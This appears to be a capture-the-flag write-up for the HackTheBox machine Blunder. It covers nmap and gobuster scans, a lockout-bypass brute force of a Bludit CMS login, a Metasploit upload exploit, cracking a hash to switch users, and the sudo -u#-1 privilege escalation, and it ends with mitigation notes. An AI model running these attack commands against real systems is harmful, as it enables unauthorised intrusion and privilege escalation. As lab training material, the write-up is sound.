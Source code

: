 # Blunder

![](images/info.PNG)

__Task__: Find [user.txt](#user-flag) and [root.txt](#root-flag)

### Penetration Methodologies

__Scanning__

- nmap

__Enumeration__

- Webpage enumeration

- CMS login brute force

__Exploitation__

- CMS directory traversal attack

__Priv Esc__

- Sudo security bypass

***

This is my guide to the HackTheBox Linux machine _Blunder_.

## User Flag

First, let's  scan _Blunder_ with `nmap`.

- __sC__: Enable common scripts

- __sV__: version and service on the port

- __O__: remote OS detection using fingerprinting

```
# Nmap 7.80 scan initiated Tue Jun  2 16:50:18 2020 as: nmap -sC -sV -O -oA scan191 10.10.10.191
Nmap scan report for 10.10.10.191
Host is up (0.21s latency).
Not shown: 998 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.26 - 2.6.35 (89%), OpenWrt Kamikaze 7.09 (Linux 2.6.22) (89%), Linux 3.16 - 4.6 (89%), Linux 2.6.32 - 3.13 (88%), Linux 3.3 (88%), Linux 2.6.23 - 2.6.38 (88%), Linux 2.6.31 - 2.6.32 (88%), Linux 2.6.32 (88%), Linux 2.6.32 - 2.6.39 (88%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun  2 16:52:39 2020 -- 1 IP address (1 host up) scanned in 141.22 seconds
```

Two standard ports are open, 21, indicating FTP, and 80, which indicates a webpage.  

Additionally, doing a full port scan reveals no new ports. Let's go ahead and enumerate webpages with `gobuster`.

```
$ gobuster dir -u http://10.10.10.191 -w /usr/share/wordlists/dirb/common.txt -x .htm,.html,.php,.txt
```

Our scan reveals an admin page at `http://10.10.10.191/admin/`. This is most likely a CMS for the website, let's check it out.

![](images/bludit-login.png)

We find a login page for the [Bludit CMS](https://www.bludit.com/). Unfortunately we don't have much to go off at the moment and a quick search reveals that there aren't any unauthenticated vulnerabilities for it.

We also find a todo file at `http://10.10.10.191/todo.txt`, which contains the `fergus` username, amongst other information. This username, however, fails to authenticate with some common passwords, and too many failed attempts actually locks us out, preventing further attempts.

Let's navigate to the main website and see what useful information we can find.

![](images/roland.png)

The various webpages don't reveal any useful information, so let's just grab as many interesting words and names as we find and create a wordlist called `wordlist.txt` to attempt a brute force login with.

Since the Bludit CMS locks us out when we try a brute force, our earlier research indicates that a [proof-of-concept exploit](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) exists to by pass the lockout. Let's give it a shot.

First, we must edit the variables in the POC. Since the todo file mentions a `fergus` user, we'll try to brute force that account first.

```
host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
fname = 'wordlist.txt'
```

Let's run the POC and see if any words from the website were also used as a password, for some reason.

![](images/poc.png)

Quickly, our POC returns valid credentials. `RolandDeschain`, a interesting typo in the passage above, happens to be the password for the user `fergus`.

Let's log in and check out the Bludit CMS.

![](images/bludit-admin.png)

Success. Poking around doesn't reveal anything in and of itself, but our previous research showed that authenticated vulnerabilities exist for older versions of Bludit. Back on our dashboard, the version is displayed. In this particular scenario, the version is 3.9.2, which is vulnerable to a [directory traversal attack](https://www.exploit-db.com/exploits/47699).

We'll use the exploit provided on Metasploit.

```
$ sudo msfdb run
```

Once Metasploit is loaded, let's use the `bludit_upload_images_exec` exploit, set our variables, using our previously discovered valid credentials.

```
msf5 > use exploit/linux/http/bludit_upload_images_exec
msf5 > set BLUDITPASS RolandDeschain
msf5 > set BLUDITUSER fergus
msf5 > set TARGETURI /
```

Now, let's run the exploit.

![](images/metasploit.png)

Success, we now have remote access to the box. Let's spawn a shell with Meterpreter, then upgrade it.

```
meterpeter > shell
$ python3 -c 'import pty;pty.spawn("/bin/bash");
```

It doesn't look like we have access to the first flag yet, but looking around, there appears to be a database file within the `bludit-3.10.0a` directory. Using `cat` to display the contents of `users.php`, we reveal the user `hugo` and a hashed password.

```
$ cd /var/www/bludit-3.10.0a/bl-content/databases
$ cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

Let's crack this password hash.

![](images/cracked.png)

Back in our shell, we may now be able to change users to `hugo`, if they've reused passwords.

```
$ su hugo
Password: Password120
```

It worked. Now that we're `hugo`, let's grab the user flag.

![](images/user-flag.png)

## Root Flag

Alright, let's see what privileges `hugo` has, maybe we can elevate our privileges. We'll run `sudo -l` first to see what special commands can be ran.

```
$ sudo -l
[...]
User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

It looks like our user can run the binary `/bin/bash` as any user. By running a single command, we can open a shell as root. This exploit is better explained on [Exploit DB](https://www.exploit-db.com/exploits/47502).

```
$ sudo -u#-1 /bin/bash
```

We've elevated to root! Let's grab the last flag.

![](images/root-flag.png)

***

### Mitigation

- Avoid having a CMS public-facing, unless absolutely necessary. If so, it should be updated regularly. Like this scenario showed, two vulnerabilities can be strung together to get remote code execution. Additionally, if the CMS is public facing, passwords should not only be complex, but also not in plain text on the website.

- Careful consideration should be taken when changing the defaults for a user's privileges. Whether it's the exploit used in this scenario, or something available on [GTFOBins](https://gtfobins.github.io/), a lot of routes become available for privilege escalation when privileges are modified or commands are altered to allow execution at a higher integrity.

### Final Thoughts

This was an interesting box. The password discovery was a bit weird. It seems that the idea was that the user was typing an entry to his website and typed the name "Roland Deschain" like his password, out of habit. Not really something I understood until I was able to build out a wordlist and brute force the CMS. I liked how SSH was not available, so shell access needed to be achieved through remote code execution vulnerabilities. Additionally, I don't typically like to use Metasploit in these CTFs but I had a hard time building out an exploit for the directory traversal attack and RCE, so I just spent some extra time learning how the Metasploit module worked. 
